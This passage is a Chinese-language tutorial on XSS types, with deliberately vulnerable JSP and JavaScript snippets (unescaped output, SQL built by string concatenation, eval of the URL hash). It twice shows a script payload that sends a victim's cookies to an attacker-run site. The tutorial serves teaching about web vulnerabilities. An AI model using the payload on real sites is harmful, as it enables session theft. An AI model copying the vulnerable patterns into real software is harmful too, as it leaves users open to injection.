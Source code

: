 ### DOM Based XSS

这种不是按照存储在哪里来划分的，可以说是反射型的一种，由于历史原因，归为一类，通过改变DOM结构形成的XSS称之为DOM Based。

## Example

## eg.1 Reflected XSS 

```java
<% String eid = request.getParameter("eid"); %> 
	...
	Employee ID: <%= eid %>
```

jsp页面中，我们可能会像上面那样写。

最初这似乎不可能出现的漏洞，因为攻击者不可能用来输入一段而已的代码然后攻击自己的电脑，导致恶意代码运行在自己的电脑。但**真正的危险**是,攻击者将创建恶意URL,然后使用电子邮件或社会工程学技巧来吸引受害者访问的URL链接。受害者点击链接时,无意中反映了恶意的内容通过脆弱的web应用程序回自己的电脑。这个机制称为**反射型XSS攻击**

> 
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫eid的参数直接显示的。 我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?eid=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。

## eg.2 Stored XSS

```java
<%... 
 Statement stmt = conn.createStatement();
 ResultSet rs = stmt.executeQuery("select * from emp where id="+eid);
 if (rs != null) {
  rs.next(); 
  String name = rs.getString("name");
%>

Employee Name: <%= name %>
```

这段代码功能是显示名字,但这并没有阻止被利用。这段代码会显得更少的危险,因为名字是读取数据库的值,因为这是由应用程序管理的内容。然而,如果名字来源于用户提供的输入,那么数据库可以为恶意内容的一个渠道。没有适当的输入验证数据就存储在数据库中,攻击者可以在用户的web浏览器中执行恶意命令，也就是**存储型XSS攻击**。

> 
 a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功

### eg.3 DOM Based XSS

`http://www.a.com/xss/domxss.htm`l代码如下：

```java
<script>

eval(location.hash.substr(1));

</script>
```
